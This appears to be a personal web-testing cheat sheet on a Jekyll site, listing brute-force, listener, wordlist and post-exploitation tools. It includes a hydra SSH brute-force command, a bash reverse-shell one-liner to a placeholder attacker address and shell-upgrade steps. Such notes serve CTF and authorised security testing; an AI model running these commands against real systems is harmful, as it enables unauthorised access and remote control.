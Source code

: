 ```yaml
---
layout: single
classes: #wide
title: "Tools"
collection: infopages
permalink: /tools/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error ouput  

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks

## Shells
reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1


## Other
Pspy - inspect application


## Refrance links 
tbd

## Post exploitation
look for weird configs  
linpeas.sh big